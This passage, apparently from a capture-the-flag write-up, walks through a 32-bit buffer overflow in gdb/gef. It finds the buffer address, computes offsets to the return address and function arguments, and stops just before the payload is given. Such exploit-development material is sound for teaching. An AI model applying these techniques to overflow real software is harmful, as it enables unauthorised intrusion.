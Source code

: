 ```terminal
   0x0804935a <+34>:    add    esp,0x10
   0x0804935d <+37>:    sub    esp,0xc
   0x08049360 <+40>:    lea    eax,[ebp-0x6c]
   0x08049363 <+43>:    push   eax
   0x08049364 <+44>:    call   0x8049120 <puts@plt>
   0x08049369 <+49>:    add    esp,0x10
   0x0804936c <+52>:    nop
   0x0804936d <+53>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049370 <+56>:    leave
   0x08049371 <+57>:    ret
End of assembler dump.
gef➤  b *0x08049355
Breakpoint 2 at 0x804935a
```

- Run the program and inspect the stack to get the address of buffer:

```terminal
gef➤  run
gef➤  tele
0xffffce60│+0x0000: 0xffffce7c  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"     ← $esp
0xffffce64│+0x0004: 0x0000001a
0xffffce68│+0x0008: 0xf7e24d40  →  0xfbad2887
0xffffce6c│+0x000c: 0x08049348  →  <vuln+16> add ebx, 0x2cb8
0xffffce70│+0x0010: 0xf7e24d40  →  0xfbad2887
0xffffce74│+0x0014: 0xf7e24d87  →  0xe258a00a
0xffffce78│+0x0018: 0x00000001
0xffffce7c│+0x001c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffce80│+0x0020: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffce84│+0x0024: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

- The buffer start from the address `0xffffce7c`.

- Calculate the offset of the buffer by subtraction in Python:

```terminal
$ python
>>> 0xffffcef4-0xffffce7c
120
```

- The offset is 120.

4. Crafting payload:

Slightly conclude the information:

1. Offset of return address is 112 bytes.

2. Offset of `arg1` is 120 bytes. 

3. `arg1` is followed by `arg2`.

Thus, the payload consists of:
